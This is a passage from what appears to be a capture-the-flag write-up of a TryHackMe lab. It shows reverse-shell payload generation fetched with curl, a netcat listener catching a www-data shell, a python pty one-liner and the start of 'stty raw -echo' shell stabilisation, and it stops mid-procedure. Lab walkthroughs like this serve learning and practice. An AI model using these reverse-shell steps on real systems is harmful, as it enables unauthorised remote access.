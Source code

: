 We can generate RCE payloads to fallback if something isn’t present utilizing [reverse-shell.sh](https://reverse-shell.sh/) and call it with cURL.

![](https://umar0x01.sh/img/debug-thm/Pasted%20image%2020210403142924.png)

I’ll let you figure out what’s happening below, just remember that I wrote the above shell script generated in a file named `shell.sh` in my local directory since the machine doesn’t have access to the internet.

#### Reverse Shell: <a id="reverse-shell"></a>

Now that we’ve reverse shell, let’s try and get tty shell and make it interactive!

–

First, we’ll get the tty shell using python’s onliner:

```python
python3 -c "__import__('pty').spawn('/bin/bash')"
```

```bash
┌──(root💀b0x)-[/mnt/hgfs/THM/Debug]
└─# nc -nlvp 4444                              
listening on [any] 4444 ...
connect to [10.17.0.120] from (UNKNOWN) [10.10.51.225] 50224
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ which python
/usr/bin/python
$ which python3
/usr/bin/python3
$ python3 -c "__import__('pty').spawn('/bin/bash')"

www-data@osboxes:/var/www/html$ 
www-data@osboxes:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@osboxes:/var/www/html$ 

www-data@osboxes:/var/www/html$ 

```

–

Now that we’ve tty shell, let’s make it interactive \(i.e. Ctrl + C or other things don’t exit the shell!\)

_**Note:** We need bash shell to make it interactive!_

Type: ‘Ctrl + Z’ and background the process.

Now we’ll use:

```d
stty raw -echo
```

